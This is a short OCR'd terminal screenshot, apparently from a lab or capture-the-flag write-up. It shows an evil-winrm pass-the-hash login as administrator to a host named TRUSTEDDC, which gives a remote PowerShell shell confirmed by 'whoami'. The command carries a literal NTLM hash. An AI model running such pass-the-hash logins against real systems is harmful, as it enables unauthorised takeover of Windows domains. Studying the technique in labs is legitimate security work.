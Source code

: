     ➜  trusted evil-winrm -i TRUSTEDDC -u administrator -H 15db914be1e6a896e7692f608a9d72ef 
                                            
    Evil-WinRM shell v3.7
                                            
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                            
    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                            
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    trusted\administrator
